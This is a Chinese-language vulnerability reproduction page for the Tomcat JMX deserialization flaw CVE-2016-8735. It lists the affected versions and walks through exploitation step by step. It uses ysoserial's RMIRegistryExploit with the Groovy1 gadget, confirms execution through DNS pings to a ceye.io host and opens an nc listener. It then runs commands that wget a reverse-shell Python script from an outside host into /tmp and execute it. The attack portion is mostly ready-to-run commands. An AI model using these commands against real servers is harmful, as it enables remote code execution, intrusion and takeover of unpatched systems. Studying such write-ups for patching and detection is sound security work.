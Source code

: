 ```yaml
---
title: "（CVE-2016-8735）Tomcat 反序列化漏洞"
id: zhfly3197
---
```


# （CVE-2016-8735）Tomcat 反序列化漏洞

## 一、漏洞简介

该漏洞与之前Oracle发布的mxRemoteLifecycleListener反序列化漏洞（CVE-2016-3427）相关，是由于使用了JmxRemoteLifecycleListener的监听功能所导致。而在Oracle官方发布修复后，Tomcat未能及时修复更新而导致的远程代码执行。
该漏洞所造成的最根本原因是Tomcat在配置JMX做监控时使用了JmxRemoteLifecycleListener的方法。

## 二、漏洞影响

ApacheTomcat 9.0.0.M1 到9.0.0.M11
ApacheTomcat 8.5.0 到8.5.6
ApacheTomcat 8.0.0.RC1 到8.0.38
ApacheTomcat 7.0.0 到7.0.72
ApacheTomcat 6.0.0 到6.0.47

## 三、复现过程

### 漏洞利用条件：

外部需要开启JmxRemoteLifecycleListener监听的10001和10002端口，来实现远程代码执行。

### 构造命令

Win ping一次命令：

```
ping -n 1 qjkpla.ceye.io 
```

Linux ping 一次命令：

```
ping -c 1 qjkpla.ceye.io 
```

利用Ceye回显看是否存在漏洞:

```
java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞IP 端口 Groovy1 "ping -c Groovy1.test.qjkpla.ceye.io" 
```

![image](../img/5c635d584ad377166fa6393adc54121b.png)

DNS回显能返回数据，说明执行了Ping命令，也就是说漏洞存在

![image](../img/250cd135739a99bc7b95d5be63f11092.png)

直接NC监听服务：

```
nc -l -vv 12555 
```

![image](../img/337a14636fe8cce352b6a8476ed62331.png)

然后构造命令：下载我们的反弹脚本:(之前用bash命令反弹没有成功所以使用Python脚本进行反弹)

```
java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞IP 端口 Groovy1 "wget http://rinige.com/back.py -O /tmp/x.py" 
```

执行完此命令继续构造命令，去执行刚在wget的脚本

```
java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞IP 端口Groovy1 "python /tmp/x.py 反弹主机地址 反弹端口" 
```

![image](../img/f8bf4b128bf7bec791c54a27504a9a8f.png)

成功反弹：

![image](../img/5c3cc5a594376195833b12f1107fa722.png)

![image](../img/e9a556604e8b7d9e18984b94d314b537.png)